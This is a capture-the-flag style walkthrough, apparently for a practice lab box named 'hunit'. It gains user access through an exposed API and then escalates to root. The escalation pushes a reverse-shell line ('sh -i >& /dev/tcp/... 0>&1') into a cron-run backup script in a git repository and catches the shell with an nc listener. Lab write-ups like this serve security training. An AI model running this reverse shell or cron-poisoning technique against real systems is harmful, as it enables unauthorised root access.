


Viewing source code for a haiku:

We have an /api/ directory.


Now in http://192.168.190.125:8080/api/user/


We can login as dademola:


running linpeas we notice cronjobs running as root:

```
find / -type d -name git-server -print 2>/dev/null
```
To find the folder:

We found it.
These are git backend files which are hard to work with. So cloning it:
```
git clone file:///git-server/
```
There is a placeholder for now:

We can try to modify and push:
```
git config --global user.name "dademola"
git config --global user.email "dademola@hunit.(none)"
echo "ping -c 5 192.168.45.212" >> backups.sh
chmod +x backups.sh
git add .
git commit -m "pwn"
git push origin master
```

We aren't allowed to do this.

### Now trying as git user
In /home:


Now we can try logging in as git user:
```
ssh -i id_rsa git@192.168.190.125 -p 43022
```


Its a git-shell.
Using https://stackoverflow.com/questions/4565700/how-to-specify-the-private-ssh-key-to-use-when-executing-shell-command-on-git

```
GIT_SSH_COMMAND='ssh -i id_rsa -p 43022' git clone git@192.168.120.204:/git-server
```

Now we can modify the files:


```
echo "sh -i >& /dev/tcp/192.168.45.212/8080 0>&1" >> backups.sh
chmod +x backups.sh
```
```
git config --global user.name "kali"
git config --global user.email "kali@kali.(none)"
git add .
git commit -m "pwned"
GIT_SSH_COMMAND='ssh -i ~/Documents/PG_Practice/hunit/id_rsa -p 43022 -o IdentitiesOnly=yes' git push origin master
```


Now running a listener:
```
sudo rlwrap nc -nlvp 8080
```

We have root access.
